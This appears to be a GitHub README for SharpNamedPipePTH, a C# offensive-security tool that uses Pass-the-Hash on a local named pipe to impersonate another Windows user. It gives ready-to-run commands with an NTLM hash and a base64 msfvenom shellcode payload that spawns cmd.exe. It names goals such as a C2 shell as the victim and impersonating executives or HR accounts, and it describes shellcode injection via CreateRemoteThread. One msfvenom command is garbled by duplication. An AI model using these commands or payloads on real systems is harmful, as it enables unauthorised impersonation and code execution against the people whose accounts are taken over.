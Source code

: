 # SharpNamedPipePTH

This project is a C# tool to use Pass-the-Hash for authentication on a local Named Pipe  for user Impersonation. There is a blog post for explanation:

[https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

It is heavily based on the code from the project [Sharp-SMBExec](https://github.com/checkymander/Sharp-SMBExec/).

I faced certain Offensive Security project situations in the past, where I already had the NTLM-Hash of a `low privileged` user account and needed a shell for that user on the current compromised system - but that was not possible with the current public tools. Imagine two more facts for a situation like that - the NTLM Hash could not be cracked *and* there is no process of the victim user to execute shellcode in it or to migrate into that process. This may sound like an absurd edge-case for some of you. I still experienced that multiple times. Not only in one engagement I spend a lot of time searching for the right tool/technique in that specific situation.

My personal goals for a tool/technique were:

* Fully featured shell or C2-connection as the victim user-account
* It must to able to also Impersonate `low privileged` accounts - depending on engagement goals it might be needed to access a system with a specific user such as the CEO, HR-accounts, SAP-administrators or others
* The tool can be used as C2-module

The impersonated user unfortunately has *no network authentication* allowed, as the new process is using an Impersonation Token which is restricted. So you can only use this technique for local actions with another user.

There are two ways to use SharpNamedPipePTH. Either you can execute a binary with given arguments:

`
SharpNamedPipePTH.exe username:testing hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:C:\windows\system32\cmd.exe
`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH/blob/main/Resources/Example1.JPG?raw=true)

Or you can execute shellcode as the other user:

`
SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=
`

Which is `msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=threadmsfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread | base64 -w0`.

I'm not happy with the shellcode execution yet, as it's currently spawning notepad as the impersonated user and injects shellcode into that new process via D/Invoke CreateRemoteThread Syscall. I'm still looking for possibility to spawn a process in the background or execute shellcode without having a process of the target user for memory allocation.

![alt text](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH/blob/main/Resources/Example2.JPG?raw=true)

